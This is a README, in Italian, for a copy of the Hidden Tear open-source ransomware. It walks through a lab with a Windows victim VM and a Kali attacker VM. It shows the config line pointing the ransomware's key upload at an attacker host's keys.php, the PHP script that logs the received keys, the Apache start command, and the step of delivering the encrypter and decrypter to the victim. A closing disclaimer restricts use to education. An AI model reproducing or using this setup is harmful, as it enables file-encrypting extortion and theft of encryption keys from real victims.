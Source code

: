 Copia dello storico ransomware open source:

         _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     
                                                     
Per utilizzarlo mi sono servito di 
- due macchine virtuali: 
	- una con windows 10 che fungeva da vittima.
	- una con kali linux che faceva da attaccante.
- Il mio pc con visual studio installato. 

**Nel mio pc, con visual studio**

* A riga 40 del file *Form1.cs* aggiungere l'indirizzo IP della macchina con kali linux e l'indirizzamento al file keys.php spiegato nello step successivo:
```
  string targetURL = "http://192.168.17.128/keys.php?info=";                                                                     
```
* Nei file di encription e decription è stato corretto il problema del padding
* (opzionale) è possibile cambiare l'estensione dei file dopo la crittografia, nel mio caso sono settati a *.bloccato*, per farlo bisogna cambiare l'estensione sia nell'encrypter che nel decrypter.


**Nella macchina con kali linux**
* Nella cartella var/www/html creare un file data.txt e un file keys.php. Per farlo bisogna aprire un terminale nella cartella e lanciare:
```
sudo gedit data.txt
sudo gedit keys.php
         
```
* Con i permessi di amministratore settare l'accesso read and write al file data.txt da parte di www-data nella sezione group. Bisogna entrare nel file manager in modalità sudo, per entrarci ho eseguito:
```
sudo xdg-open .
```
* In *keys.php* ho inserito questo codice:
```
 <?php
	$info = $_GET['info'];
	$file = fopen("data.txt", "a");
	fwrite($file, $info."". PHP_EOL);
	fclose($file);
?>
         
```
* Infine aprire un terminale nella stessa cartella e lanciare:
```
service apache2 start                                                                           
```

**Alla macchina 'vittima'** 

* Inviare i file *hidden-tear.exe* e *hidden-tear-decripter.exe* contenuti nella cartella bin/Debug con i rispettivi nomi

**Riferimento**

[Riferimento video](https://www.youtube.com/watch?v=ILlTB0-xT-k&t=387s)

**Legal Warning** 

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.

Anche se questo può essere utile per alcuni, ci sono rischi significativi. Può essere utilizzato solo per scopi educativi. Non usarlo come ransomware! Potresti finire in prigione con l'accusa di ostruzione alla giustizia, anche se sei innocente.

